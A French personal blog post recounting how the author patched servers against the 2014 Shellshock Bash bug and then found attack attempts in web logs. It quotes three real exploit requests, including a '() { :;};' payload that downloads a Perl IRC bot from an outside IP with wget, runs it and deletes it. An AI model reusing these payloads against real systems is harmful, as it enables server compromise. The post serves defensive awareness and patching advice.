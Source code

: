 ---
layout: post
title: Shellshock, c'est passé à un cheveu
tags: serveur bash
---

Retour à hier matin, jeudi 25/9 matin, 9h05, Paris, France.

Comme tous les jours, je rafraîchis mon aggrégateur RSS en marchant vers le métro, et je lis vite tous les titres pour pré-charger les articles à lire avant que je n'aie quasiment plus de connectivité en entrant dans les boîtes à sardine.

Sur Arstechnica, il y a l'article suivant [Bug in Bash shell creates big security hole on anything with \*nix in it](http://arstechnica.com/security/2014/09/bug-in-bash-shell-creates-big-security-hole-on-anything-with-nix-in-it/). *scroll* *scroll* *scroll* ... 5 secondes de lecture en diagonale, et je capte "exploitable à distance" et "pleins de manières de le déclencher" (web server, dhcp, login, etc etc).

C'est du lourd, et facile à déclencher : ça fait donc environ 10-12h que "c'est connu", il faut réagir très vite. *Si c'est pas déjà trop tard !*

<!--more-->

# Patch et re-patch

Je m'arrête de marcher, histoire de garder du réseau. Je dégaine [ConnectBot](https://play.google.com/store/apps/details?id=org.connectbot) pour me connecter sur mon serveur chez OVH, puis sur mon serveur de fichier à domicile.

Cing minutes après, il est 9h14, et mes serveurs et VM sont patchées.

	Start-Date: 2014-09-25  09:14:53
	Commandline: apt-get dist-upgrade -y
	Upgrade: bash:amd64 (4.2+dfsg-0.1, 4.2+dfsg-0.1+deb7u1)
	End-Date: 2014-09-25  09:15:04

A noter que j'ai commencé par les serveurs web, les articles reprenant l'utilisation d'appels CGI comme exemple principal : logique, c'est le point d'entrée le plus "facilement accessible".

Je continue mon chemin et ma journée en pensant "*job's done*" ([CVE-2014-6271](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271))

Retour à ce matin, vendredi 26/9, 9h20 à Paris. Comme hier, je rafraîchis ma brouette de RSS, et là *ouch*, un autre article [Arstechnica](http://arstechnica.com/security/2014/09/concern-over-bash-vulnerability-grows-as-exploit-reported-in-the-wild/). Ils n'ont pas l'habitude de faire plusieurs articles pour le plaisir, alors je l'ouvre tout de suite, ça sent mauvais...

Grand bien me fasse, j'apprends que :
- le premier patch n'a bouché le trou des variables d'environnement
- le premier bug est déjà massivement exploité dans la nature

Pire encore :
- il restait deux bugs de [Buffer overrun](https://fr.wikipedia.org/wiki/D%C3%A9passement_de_tampon) exploitables (qui viennent d'être patchés)
- je ne sais pas encore si ces deux bugs sont déjà exploités (plus compliqué que le premier, donc j'évalue *a priori* que non)

Il est 9h39, et à nouveau, mes serveurs et VM sont à jour (à nouveau, je commence par les serveurs web). Ca y est, c'est bon le deuxième bug sus-cité est lui aussi patché ([CVE-2014-7169](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-7169))

	Start-Date: 2014-09-26  09:39:04
	Upgrade: bash:amd64 (4.2+dfsg-0.1+deb7u1, 4.2+dfsg-0.1+deb7u3)
	End-Date: 2014-09-26  09:39:11

Bon, à nouveau, je me dis "ok, tout est sous contrôle". Mais je me dis aussi que c'est suffisement mauvais (et j'ai été suffisement lent hier) pour qu'il y ait un risque que j'aie été infecté... ça vaudrait la peine de regarder dans les logs.

# C'est passé à un cheveu ?

Après avoir lu dans le métro  les commentaires d'un article [slashdot](http://slashdot.org/story/14/09/25/1757208/flurry-of-scans-hint-that-bash-vulnerability-could-already-be-in-the-wild) sur le sujet, je décide de vérifier si mon/mes serveurs web ont été ciblés par les tentatives d'attaque du premier bug. 

A noter que mon serveur est un serveur personnel à très petit traffic, et donc il n'y a donc que peu de chance que je sois une cible "privilégiée", mais par contre il y a toutes les chances que je me prenne des tentatives.

Et clairement c'est le cas, j'ai reçu des attaques !

Le premier attaquant est arrivé 3h20 après que j'ai patché (*soit seulement 13h après l'article !*)

	89.207.135.125
	 [25/Sep/2014:12:37:09 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.0"
	   "() { :;};
	    /bin/ping -c 1 198.101.206.138"

Je n'étais déjà plus vulnérable, mais dans tous les cas sa première action a été de simplement vérifier si mon serveur était vulnérable (auquel cas j'aurais envoyé un ping à une de ses machines). C'est une bonne manière de "camoufler ses traces" : les machines vulnérables n'ont aucune information sur "ce qui se serait passé si j'étais vulnérable".

Le deuxième attaquant est arrivé 11h après que j'ai patché (24h après l'article)

	82.165.144.187
	 [25/Sep/2014:20:23:17 +0200]
	  "GET /cgi-sys/defaultwebpage.cgi HTTP/1.1"
	   "() { :; };
	    /usr/bin/wget 82.165.144.187/bbbbbbbbbbbb"

Il a aussi tenté d'exploiter le premier bug, et pour ce faire a tenté de faire télécharger un fichier à mon serveur. Actuellement, j'obtiens une erreur 404, donc soit le fichier n'est plus disponible, soit l'attaquant utilise une requête HTTP plutôt qu'un ping pour recenser les cibles vulnérables.

Le troisième attaquant est arrivé ce matin, et était bien plus évolué et offensif que les précédent :

	63.131.141.125
	 [26/Sep/2014:04:15:47 +0200]
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	  "GET /cgi-bin/php.fcgi HTTP/1.0"
	  "GET /fcgi-php/php HTTP/1.0"
	   "() { :;};
	    /bin/bash -c \"
	     wget -O /var/tmp/wow1 208.118.61.44/wow1;
	     perl /var/tmp/wow1;
	     rm -rf /var/tmp/wow1\" "

Alors là : d'une part il essaie plusieurs URL afin de déclencher un process CGI, et d'autre part il essaie d'infecter sans phase de recensement : en effet, il upload un script perl, l'exécute et nettoie derrière lui. Pour information, le script Perl en question est visible sur [PasteBin](http://pastebin.com/wZb9L2CW).

Il s'agit d'un client IRC qui permet de 
- récupérer des infos système de la cible
- flooder/scanner les réseaux voisins
- de récupérer des fichiers du serveur
- envoyer du mail
- et bien sûr exécuter n'importe quel programme

Bref, simple mais efficace.

# La morale de cette histoire ?

J'ai eu de la chance... car il n'aura fallu que 13h après la publication d'une faille et que je voie de vraies tentatives arriver, et j'ai pu patcher entre temps.

Mon conseil ? 
- Même si on y comprend rien, se tenir informé permet de gagner du temps
- Toujours patcher son système *rapidement*, car "quelques heures" c'est déjà long !

Il existe des outils qui regardent si des mises à jour sont disponibles ([apticron](http://www.debian-administration.org/article/491/Automatic_package_update_nagging_with_apticron) par exemple) : ils sont extrêmement utiles pour être prévenus des upgrades dispo, **et** pour savoir s'il est urgent ou pas de les installer. C'est bien, mange-en !

